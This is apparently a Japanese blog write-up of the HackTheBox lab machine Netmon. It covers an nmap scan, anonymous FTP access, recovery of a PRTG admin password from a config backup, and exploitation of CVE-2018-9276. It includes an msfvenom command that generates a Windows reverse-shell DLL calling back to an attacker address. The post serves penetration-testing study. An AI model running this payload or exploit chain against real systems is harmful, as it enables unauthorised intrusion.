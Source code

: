 ```yaml
---
title: 【Easy/Windows】Netmon Writeup(HackTheBox)
date: "2021-11-24"
template: "post"
draft: false
slug: "hackthebox-windows-netmon"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「BountyHunter」のWriteUpです。"
socialImage: "/media/cards/no-image.png"
---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="http://www.hackthebox.eu/badge/image/327080" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「netmon」のWriteUpです。

![image-10.png](../../static/media/2021-11-24-hackthebox-windows-netmon/image-10.png)

### 記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [FTPログイン](#ftpログイン)
- [リバースシェルの取得](#リバースシェルの取得)
- [認証情報の取得](#認証情報の取得)
- [エクスプロイト](#エクスプロイト)
- [まとめ](#まとめ)

## 探索

とりあえずいつもの通りスキャンを試していきます。

``` bash
sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.152  targethost.htb/g' /etc/hosts
nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
```

出力結果はこんな感じでした。

``` bash
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-23 19:35 JST
Stats: 0:01:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 66.94% done; ETC: 19:38 (0:00:57 remaining)
Warning: 10.10.10.152 giving up on port because retransmission cap hit (6).
Nmap scan report for targethost.htb (10.10.10.152)
Host is up (0.68s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE    SERVICE      VERSION
21/tcp  open     ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
80/tcp  open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp open     msrpc        Microsoft Windows RPC
139/tcp open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
514/tcp filtered shell
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2021-11-23T10:44:51
|_  start_date: 2021-11-23T04:32:58
|_clock-skew: mean: 6m19s, deviation: 0s, median: 6m18s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.12 seconds
```

FTPのAnonymousログインが有効になっていることがわかります。

## FTPログイン

Anonymousログインを実施したところ、すぐにuserフラグを取得することができました。

``` bash
ftp targethost.htb
# anonymous / パスワードなし

dir Users/Public
lcd ./
cd Users/Public
dir
get user.txt
```

続いてrootフラグの取得のために、リバースシェルの獲得を目指します。

## リバースシェルの取得

nmapの結果から、`Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)`が稼働していることがわかります。

``` bash
80/tcp  open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
```

このバージョンの脆弱性について探したところ、`CVE-2018-9276`がヒットしました。

参考：[NVD - CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276)

`CVE-2018-9276`は、OSコマンドインジェクションの脆弱性で、RCEを実行することで管理者権限のシェルが取得できる脆弱性のようです。

これが刺さればrootも取れそうです。

## 認証情報の取得

`CVE-2018-9276`を使うには`Paessler PRTG bandwidth monitor`の認証情報が必要です。

というわけで認証情報を探索していきます。

デフォルトのクレデンシャル情報は`prtgadmin`のようですが、これは使えませんでした。

参考：[What's the login name and password for the PRTG web interface? How do I change it? | Paessler Knowledge Base](https://kb.paessler.com/en/topic/433-what-s-the-login-name-and-password-for-the-prtg-web-interface-how-do-i-change-it)

そこで、AnonymousログインしたFTPで認証情報を含むファイルがないか探索していきます。

大抵の場合、認証情報を探索するときはまず以下のいずれかのファイルをターゲットにしていきます。

- 設定情報が記載されたconfigファイル
- 認証情報が格納されたデータベースのダンプ
- 認証情報が平文で書き込まれているアクセスログ
- 過去の認証情報が記録されたバックアップファイルやシャドウコピー

今回は、`C:\ProgramData\`配下の`Paessler/PRTG Network Monitor`を探索しました。

FTPのdirコマンドでは、`C:\ProgramData\`のような隠しフォルダは一覧されないので注意が必要でした。

この中にある設定ファイルのバックアップを取得したところ、`prtgadmin / PrTg@dmin2018`という認証情報が取得できました。

しかし、この認証情報は残念ながら現在は使用できません。

configファイルの作成日時を見ると、`PrTg@dmin2018`が埋め込まれたバックアップファイルは2018年に作成されたのに対して、現在の設定ファイルは2019年に作成されていました。

そこで、`prtgadmin / PrTg@dmin2019`という認証情報を使用したところ、正常に認証されました。

## エクスプロイト

認証情報が取得できたところで、こちらのエクスプロイトコードを使用してrootを取得したいと思います。

参考：[CVE-2018-9276/exploit.py at main · A1vinSmith/CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276/blob/main/exploit.py)

手元の環境で上手く動作するように、msfvenomによるエクスプロイトモジュールは自分で作成し、エクスプロイトコードも一部改変しました。

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.7 LPORT=4444 -f dll > venom
```

これを実行したところ、無事にrootが取得できました。

## まとめ

非常にシンプルなマシンでした。